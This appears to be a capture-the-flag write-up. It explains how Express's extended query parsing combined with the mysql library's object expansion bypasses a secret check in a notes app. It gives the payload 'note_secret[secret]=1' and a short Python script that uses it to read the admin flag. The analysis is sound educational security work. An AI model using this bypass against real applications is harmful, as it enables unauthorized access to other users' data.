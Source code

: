 ### Reading the source code

For the purpose of simplicity I will list here only important functions and files,

for more details you can view the full files in this directory.

**Init.db**
```SQL
-- Table structure for table `users`
--

DROP TABLE IF EXISTS `users`;
CREATE TABLE IF NOT EXISTS `users` (
  `id` int(11) NOT NULL AUTO_INCREMENT,
  `username` varchar(255) NOT NULL UNIQUE,
  `password` varchar(255) NOT NULL,
  PRIMARY KEY (`id`)
) ENGINE=InnoDB  DEFAULT CHARSET=latin1 AUTO_INCREMENT=66 ;

CREATE TABLE IF NOT EXISTS `notes` (
  `note_id` int(11) NOT NULL AUTO_INCREMENT,
  `username` varchar(255) NOT NULL,
  `secret` varchar(255) NOT NULL,
  `note` varchar(255) NOT NULL,
  PRIMARY KEY (`note_id`)
) ENGINE=InnoDB  DEFAULT CHARSET=latin1 AUTO_INCREMENT=66 ;
```

**Start of index.js**
```JS
const express = require('express');
const bodyParser = require('body-parser');
const crypto=require('crypto');
var session = require('express-session');
const db = require('./database');
const middleware = require('./middlewares');

const app = express();


app.use(bodyParser.urlencoded({
extended: true
}))

app.use(session({
    secret: crypto.randomBytes(32).toString("hex"),
    resave: true,
    saveUninitialized: true
}));
```
**View endpoint**
```JS
app.get('/viewNote', middleware.auth, (req, res) => {
    const { note_id,note_secret } = req.query;

    if (note_id && note_secret){
        db.getNoteById(note_id, note_secret, (err, notes) => {
            if (err) {
            return res.status(500).json({ error: 'Internal Server Error' });
            }
            return res.json(notes);
        });
    }
    else
    {
        return res.status(400).json({"Error":"Missing required data"});
    }
});
```

**Get note by ID endpoint**
```JS
function getNoteById(noteId, secret, callback) {
  const query = 'SELECT note_id,username,note FROM notes WHERE note_id = ? and secret = ?';
  console.log(noteId,secret);
  pool.query(query, [noteId,secret], (err, results) => {
    if (err) {
      console.error('Error executing query:', err);
      callback(err, null);
      return;
    }
    callback(null, results);
  });
}
```

**Insert flag as note in the admin account**
```JS
function insertAdminNoteOnce(callback) {
  const checkNoteQuery = 'SELECT COUNT(*) AS count FROM notes WHERE username = "admin"';
  const insertNoteQuery = 'INSERT INTO notes(username,note,secret)values(?,?,?)';
  const flag = process.env.DYN_FLAG || "placeholder";
  const secret = crypto.randomBytes(32).toString("hex");

  pool.query(checkNoteQuery, [], (err, results) => {
    if (err) {
      console.error('Error executing query:', err);
      callback(err, null);
      return;
    }

    const NoteCount = results[0].count;

    if (NoteCount === 0) {
      pool.query(insertNoteQuery, ["admin", flag, secret], (err, results) => {
        if (err) {
          console.error('Error executing query:', err);
          callback(err, null);
          return;
        }
        console.log(`Admin Note inserted successfully with this secret ${secret}`);
        callback(null, results);
      });
    } else {
      console.log('Admin Note already exists. No insertion needed.');
      callback(null, null);
    }
  });
}
```

So this application basically have these functionalities :

- Register an account
- Login to account
- Profile view
- Add note
- View note

Also, when starting the program it automatically calls `insertAdminNoteOnce` function, which will insert the flag as a note with a random 32 hex secret in admin account.

To view the a note you need to provide 2 GET parameters : `note_id` & `note_secret`.

So how can we view the flag? Clearly, we can't bruteforce a 32 random bytes secret.

### Analyzing

We can easily get the note id, by looking at the table creation : `AUTO_INCREMENT=66` which means that the ID starts from 66.

For the note secret, looking at the first few lines of `index.js` we can see an interesting line :
```JS
app.use(bodyParser.urlencoded({
extended: true
}))
```

What does `extended` means? From expressjs docs :

> The extended option allows to choose between parsing the URL-encoded data with the querystring library (when false) or the qs library (when true). The “extended” syntax allows for rich objects and arrays to be encoded into the URL-encoded format, allowing for a JSON-like experience with URL-encoded.

Perfect. so if we passed our GET query like this : `/viewNote?note_id=66&note_secret[c]=d`

It would be interpreted as :
```JS
note_id = 66
note_secret= {'c':'d'}
```

The viewNote route will then call the `getNotebyId` function, which will basically construct a SELECT query with our inputs :

```JS
function getNoteById(noteId, secret, callback) {
  const query = 'SELECT note_id,username,note FROM notes WHERE note_id = ? and secret = ?';
  console.log(noteId,secret);
  pool.query(query, [noteId,secret],
```

When you pass a javascript object to SQL, it treats the key as column and the value as the value of that column, in simpler terms our query is going to be like this :

```SQL
SELECT note_id,username,note FROM notes WHERE note_id = 66 and secret = `c` = 'd'
```

Backticks (`) meaning in SQL : 

> In MySQL, backticks are special syntax used for encapsulating identifiers like table and column names.

So if `c` was a column name, it will compare all the values in that column with `secret` which would result in `true` ( boolean value ) if at least one value appeared in both columns (c and secret) then compare it with `d`.

So if we passed this GET query : `/viewNote?note_id=66&note_secret[secret]=1`

It would be interpreted in SQL as :
```SQL
SELECT note_id,username,note FROM notes WHERE note_id = 66 and secret = `secret` = '1'
```

so ```secret = `secret` = 1``` will evaluate to ```true = '1'``` which is always true in MySQL.

### Exploiting

Because of jailing we need to write a simple and fast script using `requests` session :

```py
import requests


sess = requests.Session()


url = "http://169.254.55.45:5000/"


data = {"username":"yonko123","password":"yonko123"}

print(sess.post(url+"register", data=data).text)

print(sess.post(url+"login", data=data).text)

print(sess.get(url+"viewNote?note_id=66&note_secret[secret]=1").text)
```

And we get the flag :

![Screenshot (202)](https://github.com/user-attachments/assets/a9bf7ae8-4e41-422c-9d30-28b6395a4052)
